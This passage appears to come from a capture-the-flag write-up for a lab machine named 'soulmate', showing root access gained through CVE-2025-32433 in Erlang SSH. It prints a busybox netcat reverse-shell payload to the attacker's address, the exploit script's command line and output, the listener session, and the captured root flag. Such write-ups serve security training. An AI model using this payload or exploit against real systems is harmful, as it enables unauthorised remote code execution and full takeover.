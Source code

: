By using [busybox](https://gtfobins.github.io/gtfobins/busybox/) as this binary is not always restricted by other binary.

```bash
os:cmd("busybox nc 10.10.16.17 4444 -e /bin/bash")
```

### CVE-2025-32433 (modified script)
```bash
www-data@soulmate:/tmp$ python3 cve-2025-32433.py 127.0.0.1 -p 2222 --shell --lhost 10.10.16.17 --lport 4444
[*] Target: 127.0.0.1:2222
[*] Sending reverse shell to connect back to 10.10.16.17:4444
[*] Connecting to target...
[+] Received banner: SSH-2.0-Erlang/5.2.9
[+] Running command: os:cmd("busybox nc 10.10.16.17 4444 -e /bin/bash").
[✓] Exploit sent. If vulnerable, command should execute.
[+] Reverse shell command sent. Check your listener.
```

```bash
└─$ penelope -p 4444         
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.17
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from soulmate~10.129.172.38-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/soulmate~10.129.172.38-Linux-x86_64/2025_09_08-06_49_57-849.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@soulmate:/# id
uid=0(root) gid=0(root) groups=0(root)
```

There we go, got ourselves as `root`.

```bash
root@soulmate:~# ls -al
total 52
drwx------  7 root root 4096 Sep  7 14:53 .
drwxr-xr-x 18 root root 4096 Sep  2 10:27 ..
lrwxrwxrwx  1 root root    9 Aug 27 09:28 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  3 root root 4096 Aug  6 10:18 .config
-r--------  1 root root   20 Aug  6 00:00 .erlang.cookie
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Sep  7 14:53 root.txt
drwxr-xr-x  3 root root 4096 Aug 19 11:21 scripts
-rw-r--r--  1 root root   66 Aug 12 08:38 .selected_editor
lrwxrwxrwx  1 root root    9 Aug 19 12:17 .sqlite_history -> /dev/null
drwx------  2 root root 4096 Aug  6 10:57 .ssh
-rw-r--r--  1 root root  165 Aug 27 09:28 .wget-hsts
root@soulmate:~# cat root.txt
ca8e12f4dc5f672026d9a333fe592bb4
```
